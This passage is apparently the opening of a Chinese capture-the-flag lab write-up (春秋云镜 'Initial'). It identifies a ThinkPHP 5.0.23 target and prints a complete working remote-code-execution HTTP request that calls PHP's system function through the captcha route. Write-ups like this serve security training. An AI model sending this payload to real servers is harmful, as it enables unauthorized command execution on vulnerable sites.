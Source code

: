```yaml
---
title: "春秋云镜 Initial Writeup"
date: 2023-07-28T22:16:09+08:00
lastmod: 2023-07-28T22:16:09+08:00
draft: false
author: "X1r0z"

tags: ['windows', 'domain']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


春秋云镜 Initial Writeup



## flag01

入口点

![image-20230728203700498](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282037549.png)

根据 favicon 和报错确定是 thinkphp 5.0.23

```
http://39.99.144.193/index.php?s=xx
```

![image-20230728203912177](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282039206.png)

网上随便找个 exp

```
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.144.193
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```
